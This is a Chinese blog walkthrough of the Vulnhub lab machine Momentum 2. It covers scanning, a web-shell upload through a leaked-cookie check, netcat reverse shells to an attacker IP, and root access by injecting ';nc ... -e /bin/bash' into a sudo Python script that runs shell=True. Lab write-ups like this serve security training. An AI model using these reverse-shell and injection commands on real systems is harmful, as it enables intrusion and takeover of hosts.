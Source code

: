 ```yaml
---
layout: post
title: Momentum 2
subtitle: Momentum 2
date: 2023-07-19 15:53
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
---
```


## 1. 信息收集

扫描 IP 发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/e6Tm65.png)

扫描端口，开发 80、22 端口

![image.png](https://img.ghostliner.top/urtsRx.png)

扫描目录

![image.png](https://img.ghostliner.top/vh5Uev.png)

查看站点，`/manual`发现文件上传

![image.png](https://img.ghostliner.top/Sk3BDv.png)

相关 js 代码，向`ajax.php`发送数据，返回 1 代表成功

![image.png](https://img.ghostliner.top/18Grb1.png)

目录扫描发现 `ajax.php.bak`文件

![image.png](https://img.ghostliner.top/0xK8l9.png)

根据代码，需要添加 cookie，且最后一位追加大写字母，设置参数 `secure`值为 `val1d`，则可以上传 php 文件

```
admin=&G6u@B6uDXMq&Ms
```

bp 测试，发现为字符 `R`

![image.png](https://img.ghostliner.top/3WGt0N.png)

![image.png](https://img.ghostliner.top/qx4Ncq.png)

成功上传 `shell.php`文件，7kbscan 扫描目录发现 `/owls/`

![image.png](https://img.ghostliner.top/M3SlE8.png)

确定脚本位置： <http://192.168.163.131/owls/shell.php> ，使用蚁剑连接

## 2. 反弹 shell

```shell
nc -nv 192.168.163.132 -e /bin/bash
```

![image.png](https://img.ghostliner.top/kOUeD9.png)

查看 `/etc/passwd`发现用户`athena`

![image.png](https://img.ghostliner.top/ZloKSE.png)

查看 home 目录，发现多个文本文件，一个脚本文件

![image.png](https://img.ghostliner.top/JvFQqX.png)

获取第一个 flag

![image.png](https://img.ghostliner.top/1gYtoc.png)

## 3. 提权

获取密码：`myvulnerableapp[Asterisk]` Asterisk 为星号

![image.png](https://img.ghostliner.top/uavPEh.png)

发现提示，要执行 `cookie-gen.py`脚本

![image.png](https://img.ghostliner.top/qdcFM1.png)

查看脚本内容

```python
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

最后一行命令会启动一个 shell 进程来解析 cmd 字符串，cmd 字符串中包含了用户输入的内容

使用密码：`myvulnerableapp*`，登录 `athena`成功，发现可用`/usr/bin/python3 /home/team-tasks/cookie-gen.py`提权

![image.png](https://img.ghostliner.top/43yOpc.png)

```shell
sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
# 输入反弹shell代码
;nc -nv 192.168.163.132 5555 -e /bin/bash
```

反弹成功

![image.png](https://img.ghostliner.top/eOXzYY.png)

提权成功

![image.png](https://img.ghostliner.top/CXtpxk.png)
